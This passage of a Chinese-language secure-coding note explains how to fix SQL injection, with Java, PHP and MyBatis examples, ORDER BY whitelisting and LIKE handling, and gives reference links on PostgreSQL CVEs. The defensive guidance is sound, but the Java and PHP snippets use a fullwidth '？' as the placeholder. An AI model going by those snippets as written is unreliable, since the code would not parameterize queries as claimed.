9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。
## 修复方案
### 使用预编译
使用预编译功能够在提供运行效率的同时预防大多数得SQL注入, 预编译可以提前将要执行的SQL语句逻辑进行编译,用占位符对参数进行占位,在使用预编译时数据库只会将占位符上传入的参数当作数据进行计算而不是会改变原有的SQL逻辑和结构.  
JAVA:
```java
String sql = "select * from userinfo where id = ？";
ps = conn.prepareStatement(sql);
ps.setInt(1,id);
rs = ps.executeQuery();
```
php:
```php
$sql = "select * from userinfo where id = ？";
$stmt = $pdo->prepare($sql);
$stmt->bindValue(1,"test");
$result = $stmt->execute();
```
#### MyBatis
MyBatis中使用`#{}`表示在底层使用`?`作为占位符使用参数化预编译,`${}`则是使用字符串拼接的方法。
```xml
<mapper namespace="a.v.c.aMapper">
<select id="getUser" result="a.v.c.User">
select * from user where id = #{id}
</select>
</mapper>
```
#### orderby
order by后面的语句无法进行预编译,因为prepareStatement使用占位符占位时,传入数据的位置会被单引号包裹，而order by后面跟的只能是字段名字或者位置,如果被单引号包裹则只会被当作字符串,无法进行排序,所以orderby只能进行拼接,需要进行手动过滤.  
或者对字段进行映射.
```xml
<select id="orderBySafe" resultType="com.best.hello.entity.User">
    select * from users
    <choose>
        <when test="field == 'id'">
            order by id desc
        </when>
        <when test="field == 'user'">
            order by user desc
        </when>
        <otherwise>
            order by id desc
        </otherwise>
    </choose>
</select>
               
```
对于表名、列名等无法进行预编译的场景，比如外部数据拼接到order by, group by语句中，需通过白名单的形式对数据进行校验，例如判断传入列名是否存在、升降序仅允许输入“ASC”和“DESC”、表名列名仅允许输入字符、数字、下划线等。
#### 模糊查询
模糊查询如`%`,`_`,主要是预编译不会对`%`,`_`语句进行转义,而这两个是like模糊查询的通配符关键字,可以考虑使用concat进行连接.
```
@Select("select * from users where user like concat('%',#{q},'%')")
List<User> search(String q);
```
### 强制转换类型
对参数的类型进行严格转换,如int类型的参数则只接受int类型的数据.
### 黑(白)名单
对常见的SQL注入关键字建立黑名单,手动转义单双引号等或者在不影响业务的情况下会传入的数据进行白名单校验.
## 参考
http://drops.xmd5.com/static/drops/tips-6449.html  
https://mp.weixin.qq.com/s/VJPih8L_IrGKxwPCywj2KA  
https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/%E6%B8%97%E9%80%8F%E4%B8%AD%E5%88%A9%E7%94%A8postgresql%20getshell/
https://github.com/vulhub/vulhub/tree/master/postgres/CVE-2019-9193
https://github.com/vulhub/vulhub/tree/master/postgres/CVE-2018-1058